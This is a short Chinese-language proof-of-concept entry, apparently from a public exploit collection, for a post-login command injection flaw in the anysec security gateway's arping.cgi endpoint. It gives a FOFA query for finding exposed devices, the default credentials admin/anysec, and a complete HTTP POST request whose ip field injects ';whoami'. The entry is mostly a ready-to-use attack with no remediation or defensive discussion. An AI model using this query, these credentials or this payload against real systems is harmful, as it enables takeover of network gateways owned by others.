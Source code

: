 # 中科网威anysec安全网关arping存在后台远程命令执行漏洞
深圳市中科网威科技有限公司是一家专注于网络安全产品研发和生产的高新技术企业。‌中科网威anysec安全网关存在arping后台远程命令执行漏洞，攻击者可利用该漏洞获取网关权限。

## fofa

```javascript
app="中科网威-anysec"
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1733735125819-6e44adad-f0c0-4cdc-bab4-d2def9afe4e6.png)

## poc
1. 使用弱口令`admin/anysec`登录系统
2. 执行命令

```java
POST /cgi-bin/system/arping.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Connection: keep-alive
Cookie: CGISID=2ZuEDPfh3Yxu6hyiAmyZpxIHymc9vSfxGJbcqhtl8RP51; sdmenu_my_menu=100000000
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: frame
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

moduleid=150&tasknum=1&ip=127.0.0.1;whoami&interface=wan0&count=4&sip=8.8.8.8&x=58&y=16
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1734016663310-d6fe8c5a-89a6-47b8-b6d2-91427144aeff.png)

